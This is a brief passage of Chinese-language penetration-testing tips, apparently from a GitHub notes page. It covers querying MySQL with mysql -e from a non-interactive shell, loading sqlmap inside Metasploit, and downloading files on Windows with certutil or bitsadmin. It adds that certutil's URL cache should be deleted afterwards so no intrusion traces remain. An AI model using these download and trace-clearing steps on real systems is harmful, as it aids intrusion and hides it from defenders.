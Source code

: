 - 在非交互式shell下，不能远程连接MySQL，同时禁止外部访问，这时候要么反弹shell后连接，要么使用mysql的-e参数：

  ```
  mysql -h ip -uroot -pxxxx -e 'select user();'
  ```

- msf中加载sqlmap插件：

  ```
  load sqlmap
  前提是需要开启sqlmapapi
  sqlmapapi -s -p 8080
  ```

- Windows下自带的下载命令：bitsadmin和certUtil

  ```
  certutil.exe -urlcache -split -f url
  certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，需要马上执行如下：
  certutil.exe -urlcache -split -f url delete
  ```

  ​